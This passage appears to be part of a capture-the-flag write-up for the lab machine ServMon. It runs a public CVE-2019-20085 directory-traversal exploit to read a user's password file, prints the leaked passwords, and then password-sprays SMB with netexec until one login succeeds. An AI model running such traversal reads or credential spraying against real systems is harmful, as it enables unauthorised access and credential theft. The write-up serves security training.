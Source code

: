 This is NSClient++.

## Remote Code Execution

This [CVE-2019-20085 PoC](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py) works:

```console
$ python3 nvms.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt x.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

One hit:

```console
$ nxc smb servmon.htb -u ./u.txt -p ./p.txt --continue-on-success
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE
```
